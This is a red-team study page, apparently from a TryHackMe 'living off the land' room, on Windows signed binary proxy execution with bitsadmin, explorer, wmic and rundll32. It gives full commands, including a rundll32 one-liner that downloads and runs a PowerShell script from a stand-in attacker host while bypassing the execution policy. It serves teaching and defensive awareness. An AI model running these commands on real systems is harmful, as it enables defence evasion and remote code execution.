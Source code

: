# File Operations

## Theory

Here, we will show various ways of executing a binary within the operating system. The typical case of executing a binary involves various known methods such as using the command line cmd.exe or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload's process. . This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io)
Based on the MITRE ATT&CK framework, this technique is called **Signed Binary Proxy Execution** or **Indirect Command Execution**.

## Practice

## Practice

{% tabs %}
{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

```bash
#Execute a file
#One-liner that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job. 
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
```
{% endtab %}
{% tab title="explorer.exe" %}
File Explorer is a file manager and system component for Windows. People found that using the file explorer binary can execute other .exe files. This technique is called Indirect Command Execution, where the explorer.exe tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

```bash
#Create a child process of explorer.exe
explorer.exe /root,"C:\Windows\System32\calc.exe"
```
{% endtab %}
{% tab title="wmic.exe" %}
Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. 

```bash
#Execute calc.exe
wmic.exe process call create calc
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

{% tab title="rundll32.exe" %}
Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. 

```bash
#Execute Binary - calc.exe
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

#Execute powershell scripts
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that other tools can be used for file executions. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/)[ ](https://lolbas-project.github.io/)project to check them out.
{% endhint %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://lolbas-project.github.io/#" %}